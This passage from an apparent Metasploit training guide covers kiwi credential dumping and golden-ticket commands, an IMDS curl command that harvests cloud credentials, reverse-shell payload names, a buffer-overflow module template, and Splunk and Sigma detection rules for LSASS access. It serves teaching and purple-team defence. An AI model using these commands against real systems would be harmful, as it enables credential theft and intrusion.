 BloodHound     • Graph database analysis (Neo4j) mapping attack paths and ACL abuse.
 Rubeus         • Deep C# Kerberos manipulation, ticket roasting, and AS-REP harvesting.
 NetExec        • High-speed network protocol spraying, credential validation, and execution.
====================================================================================================
```

### 12.1 The Metasploit Kiwi (Mimikatz) Extension
Once SYSTEM privileges are achieved on a domain-joined machine, Meterpreter's `kiwi` extension interfaces directly with the Local Security Authority Subsystem Service (LSASS) memory:
```bash
load kiwi               # Dynamically load the in-memory Mimikatz extension DLL
creds_all               # Dump cached plaintext credentials, NTLM hashes, and PINs
kerberos_ticket_list    # Enumerate Kerberos tickets stored in memory (LSA cache)
golden_ticket_create    # Forge Kerberos Golden Tickets using the KRBTGT NTLM hash
```

---

# 13. Wireless Security: Context, Service Testing & Boundaries

Metasploit is not an 802.11 Layer 2 frame capture or Wi-Fi cracking suite. It operates exclusively at the **network layer (Layer 3) and above**.

```text
┌─────────────────────────────────────────────────────────────┐
│ 802.11 Layer 2 RF Domain (Monitor Mode, Beacons, EAPOL)     │ ➔ Aircrack-ng Suite
└─────────────────────────────────────────────────────────────┘
                               │ (Client Associative Handshake Complete)
                               ▼
┌─────────────────────────────────────────────────────────────┐
│ Layer 3+ IP Network Domain (TCP/UDP Services, Web, Exploits)│ ➔ Metasploit Framework
└─────────────────────────────────────────────────────────────┘
```

* **When to Use Aircrack-ng:** Capturing the 802.11 4-way handshake, performing deauthentication frame injection, harvesting PMKIDs, and cracking WPA2/WPA3 pre-shared keys.
* **When to Use Metasploit:** Once a tester has successfully associated with the wireless network and acquired an IP address, Metasploit is employed to audit network services exposed on the wireless LAN or test rogue access point authentication portals.

---

# 14. Cloud Security: Workloads, IMDS Metadata & API Flaws

Metasploit applies to cloud security when assessing **cloud-hosted virtual machines, compute instances, and application containers** (AWS EC2, Azure VMs, Google Compute Engine).

### 14.1 Instance Metadata Service (IMDS) Exploitation
When a web application hosted on a cloud instance is vulnerable to Server-Side Request Forgery (SSRF) or remote code execution, Metasploit modules query the non-routable link-local metadata IP (`169.254.169.254`):
```bash
# Query AWS IMDSv1 to harvest temporary IAM role credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
```

### 14.2 Cloud Boundaries
Metasploit does not manage or evaluate cloud control-plane IAM configurations, S3 bucket permissions, or tenant policies. Security engineers pair Metasploit with cloud security posture management (CSPM) tools such as **Prowler**, **ScoutSuite**, and **CloudTrail** audit suites.

---

# 15. Containers & DevSecOps: Exposed Daemons & Namespaces

In containerized environments (Docker, Kubernetes, Podman), Metasploit modules target misconfigured orchestration APIs and vulnerable container applications:

* **Docker Socket Exposure (`auxiliary/scanner/http/docker_version`):** Targets Docker daemons exposed without mutual TLS on TCP port 2375.
* **Container Breakouts:** If a container is executed with the `--privileged` flag or with the host socket mounted (`-v /var/run/docker.sock:/var/run/docker.sock`), post-exploitation modules can execute commands directly on the underlying host kernel.
* **Tool Specialization:** Metasploit tests live container services. Container image vulnerability scanning (CVE scanning in container registries) is delegated to specialized scanners such as **Trivy**, **Grype**, or **Clair**.

---

# 16. IoT & Embedded Devices: Cross-Architecture Exploit Execution

Embedded systems and Internet of Things (IoT) devices present unique architectural constraints due to the diversity of non-x86 processors and proprietary firmware.

```text
====================================================================================================
                        EMBEDDED ARCHITECTURE CONSIDERATIONS
====================================================================================================
 ARCHITECTURE      ENDIANNESS               PRIMARY USAGE
────────────────────────────────────────────────────────────────────────────────────────────────────
 MIPS (mipsbe)     Big-Endian (MSB First)   Legacy routers, industrial controllers.
 MIPS (mipsle)     Little-Endian (LSB First)Consumer Wi-Fi access points, IP cameras.
 ARM (armle)       Little-Endian            Modern smartphones, Raspberry Pi, smart hubs.
 SuperH (sh4)      Variable                 Automotive ECUs, multimedia devices.
====================================================================================================
```

* **Payload Generation:** Compiling shellcode for IoT devices requires specifying the target architecture and endianness in `msfvenom` (e.g., `-p linux/mipsbe/shell_reverse_tcp`).
* **Toolchain Integration:** Firmware analysis requires unpacking the binary image using **Binwalk** before targeting exposed HTTP/UPnP/Telnet services with Metasploit.

---

# 17. Mobile Security: Android Runtime (ART/Dalvik) & iOS Scope

Metasploit provides payloads for Android mobile systems, allowing security teams to demonstrate the impact of malicious application installation in controlled lab environments.

* **Android Payload (`android/meterpreter/reverse_tcp`):** Compiled as a Dalvik Executable (`classes.dex`) embedded within an Android Application Package (`.apk`).
* **Runtime Mechanics:** Executes within the Android Application Sandbox. Unless the mobile device is rooted, the payload is restricted by standard Android manifest permissions (camera, location, contacts).
* **Mobile Toolchain Boundaries:** Metasploit does not perform static APK code auditing or iOS binary reverse engineering. Dedicated mobile security suites include **MobSF (Mobile Security Framework)**, **JADX**, **Frida**, and **Objection**.

---

# 18. Exploit Development & Module Authoring: Ruby Class Anatomy

Writing a custom Metasploit module requires translating a raw vulnerability proof-of-concept into the framework's object-oriented architecture.

### 18.1 Annotated Exploit Module Skeleton
```ruby
##
# This module demonstrates the clean architectural structure of an MSF Exploit
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name'           => 'Custom Buffer Overflow Demonstration Exploit',
        'Description'    => %q{
          Detailed technical explanation of the target vulnerability, memory corruption
          primitives, and exploit preconditions.
        },
        'Author'         => [ 'Security Researcher' ],
        'License'        => MSF_LICENSE,
        'References'     => [ [ 'CVE', '2024-XXXX' ] ],
        'Payload'        => {
          'Space'    => 500,
          'BadChars' => "\x00\x0a\x0d"
        },
        'Platform'       => 'win',
        'Targets'        => [
          [ 'Windows 10 x64', { 'Ret' => 0x00401234, 'Offset' => 1024 } ]
        ],
        'DefaultTarget'  => 0
      )
    )
    register_options([
      Opt::RPORT(9999)
    ])
  end

  def check
    connect
    res = sock.get_once
    disconnect
    if res =~ /Vulnerable Server v1.0/
      return Exploit::CheckCode::Appears
    end
    Exploit::CheckCode::Safe
  end

  def exploit
    connect
    # Construct the memory corruption buffer: Padding + Return Address + NOPs + Payload
    buffer = make_nops(target['Offset'])
    buffer << [target.ret].pack('V')
    buffer << make_nops(16)
    buffer << payload.encoded

    print_status("Transmitting #{buffer.length} bytes to #{rhost}:#{rport}...")
    sock.put(buffer)
    handler
    disconnect
  end
end
```

### 18.2 Memory Offset Discovery with Pattern Utilities
Metasploit provides command-line utilities to calculate exact memory offsets during stack overflow research:
```bash
# Generate a 2000-byte unique cyclic pattern (De Bruijn sequence)
msf-pattern_create -l 2000

# Calculate exact buffer offset when the instruction pointer (EIP/RIP) crashes at 0x39694438
msf-pattern_offset -q 39694438 -l 2000
# Output: [*] Exact match at offset 1024
```

---

# 19. SOC, EDR Telemetry & Purple-Team Operations

For Security Operations Centers (SOC) and Purple Teams, Metasploit serves as an authorized stimulus generator to validate whether detection pipelines, SIEM correlation rules, and endpoint sensors detect adversary tradecraft.

<div align="center">


</div>

### 19.1 Windows Sysmon Endpoint Telemetry Mapping

| Telemetry Event ID | Sensor Detection Point | Observed Metasploit Artifact |
| :--- | :--- | :--- |
| **Sysmon Event ID 1** | Process Creation | Abnormal parent-child process relationships (e.g., `cmd.exe` spawned by `spoolsv.exe`). |
| **Sysmon Event ID 3** | Network Connection | Outbound TCP/HTTPS connection initiated from non-standard binaries to external port 4444. |
| **Sysmon Event ID 7** | Image Load | Dynamic loading of suspicious modules (`ws2_32.dll`, `samlib.dll`) into injected processes. |
| **Sysmon Event ID 10** | Process Access | Meterpreter or Kiwi opening a handle to `lsass.exe` with `GrantedAccess=0x1010` or `0x1410`. |

### 19.2 Production Splunk SPL Correlation Rules

```sql
/* SPL Correlation 1: Detect LSASS Process Memory Access (Sysmon Event ID 10) */
index=sysmon EventCode=10 TargetImage="*\\lsass.exe"
| where GrantedAccess="0x1010" OR GrantedAccess="0x1410" OR GrantedAccess="0x1FFFFF"
| stats count min(_time) as firstTime max(_time) as lastTime by Computer, SourceImage, TargetImage, GrantedAccess
| convert ctime(firstTime) ctime(lastTime)

/* SPL Correlation 2: Detect Meterpreter Default Port Connections (Sysmon Event ID 3) */
index=sysmon EventCode=3 (DestinationPort=4444 OR DestinationPort=4445 OR DestinationPort=8443)
| stats count by _time, Computer, Image, SourceIp, DestinationIp, DestinationPort
```

### 19.3 Sigma Detection Rule (Meterpreter Process Access)
```yaml
title: Suspicious Process Access to LSASS Memory
id: 9a7e3d12-4c2b-4e89-9a88-2b8d9c123456
status: production
description: Detects raw process memory access to LSASS indicating credential dumping via Meterpreter or Mimikatz.
logsource:
    category: process_access
    product: windows
detection:
    selection:
        TargetImage|endswith: '\lsass.exe'
        GrantedAccess:
            - '0x1010'
            - '0x1410'
            - '0x1FFFFF'
    condition: selection
falsepositives:
    - Microsoft Defender Antivirus processes (MsMpEng.exe)
level: high
```

---

# 20. Plugins & Framework Extensibility

Plugins dynamically extend `msfconsole` by introducing new commands, external software bindings, and background automation hooks.

```bash
# List available plugins installed on system
load -l

# Load the command alias plugin
load alias

# Load the Wmap web vulnerability scanner plugin
load wmap

# Load automated PCAP packet recording plugin
load pcap_log
```

---

# 21. Source Code Repository Structure & Module Tree

Navigating the official Metasploit GitHub repository (`rapid7/metasploit-framework`):

```text
metasploit-framework/
├── data/              # Wordlists, binaries, Meterpreter source DLLs, templates
├── documentation/     # Architectural specifications and developer guides
├── lib/
│   ├── msf/
│   │   ├── base/      # CLI parsers, session controllers, UI wrappers
│   │   └── core/      # Module loading engine, payload assembler, event dispatchers
│   └── rex/           # Low-level protocol, socket, parser, and encoding libraries
├── modules/           # The community-contributed module repository
│   ├── auxiliary/
│   ├── encoders/
│   ├── evasion/
│   ├── exploits/
│   ├── nops/
│   ├── payloads/
│   └── post/
├── plugins/           # Standalone framework plugins (Wmap, Nessus, PCAP)
└── spec/              # Automated RSpec unit and integration testing suite
```

---

# 22. Comprehensive Command Reference Matrix

| Operational Phase | Primary Command | Technical Function |
| :--- | :--- | :--- |
| **Initialization** | `msfconsole -q` | Launch console quietly without ASCII banner. |
| **Search** | `search type:exploit cve:2021` | Query module catalogue with specific filters. |
| **Inspection** | `info <module>` | Display author, CVE references, targets, and options. |
| **Configuration** | `show options` / `show advanced` | Display mandatory and internal module parameters. |
| **Global Scope** | `setg RHOSTS <IP>` | Set parameter globally across all modules. |
| **Verification** | `check` | Execute non-destructive vulnerability check. |
| **Execution** | `exploit -j` / `run` | Execute module as background job or in foreground. |
| **Job Control** | `jobs -l` / `jobs -k <ID>` | List active background tasks or terminate job. |
| **Sessions** | `sessions -l` / `sessions -i <ID>`| List established sessions or interact with target. |
| **PostgreSQL DB** | `db_status` / `db_nmap` | Verify database connection or run mapped scans. |
| **Pivoting** | `route add <subnet> <maskSession>`| Route framework traffic through Meterpreter session. |

---

# 23. Architectural Boundaries & Technical Limitations

Metasploit is an exceptional exploit verification engine, but professional cybersecurity engineering requires recognizing its operational boundaries:
* **Not an Automated Scanner:** Metasploit does not replace comprehensive vulnerability management scanners (such as Nessus, Qualys, or OpenVAS).
* **Not a Web Application Scanner:** It cannot parse client-side Single Page Application (SPA) state, map complex authentication flows, or identify nuanced business logic flaws.
* **Not an Active Directory Graph Tool:** It does not model shortest-path domain compromise routes (delegated to BloodHound).
* **Payload Crash Risks:** Exploiting low-rank memory corruption vulnerabilities on production systems carries an inherent risk of process termination or operating system Kernel Panic (BSOD).

---

# 24. Official Authoritative Documentation & Source Repositories

For continuing research, source-code contribution, and official updates:
* **Rapid7 Metasploit Core Repository:** [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
* **Official Metasploit Documentation:** [https://docs.metasploit.com](https://docs.metasploit.com/)
* **Module Documentation Database:** [https://docs.rapid7.com/metasploit/modules/](https://docs.rapid7.com/metasploit/modules/)
* **Metasploitable Vulnerable VM Environment:** [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)
* **Rapid7 Vulnerability & Exploit Database:** [https://www.rapid7.com/db/](https://www.rapid7.com/db/)

---

<div align="center">

**[Return to Main Tools Masterclass Directory](../README.md)**

</div>
